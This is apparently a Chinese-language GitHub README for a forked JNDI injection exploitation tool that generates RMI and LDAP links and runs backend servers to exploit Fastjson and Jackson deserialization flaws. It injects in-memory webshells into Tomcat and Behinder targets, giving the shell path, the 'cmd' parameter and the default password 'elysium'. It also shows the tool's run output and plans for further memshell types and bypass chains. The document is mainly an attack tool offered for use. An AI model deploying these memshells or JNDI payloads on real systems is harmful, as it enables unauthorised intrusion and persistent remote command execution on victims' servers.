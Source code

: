 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open /Applications/Calculator.app
----------------------------JNDI Links----------------------------
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/qbf3r4
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/7oufct
ldap://127.0.0.1:1389/7oufct
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/zskyrz
ldap://127.0.0.1:1389/zskyrz
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/j5edul
ldap://127.0.0.1:1389/j5edul
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/jkzrcz
ldap://127.0.0.1:1389/jkzrcz

----------------------------Server Log----------------------------
2023-08-25 10:07:14 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-25 10:07:14 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-25 10:07:14 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Memshell

  - 命令执行内存马：路径/shell，参数cmd

   ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder

  - 冰蝎内存马：路径/shell，密码:elysium

  ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

## 待实现

- 添加filter、Interceptor类型的内存马
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马



## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
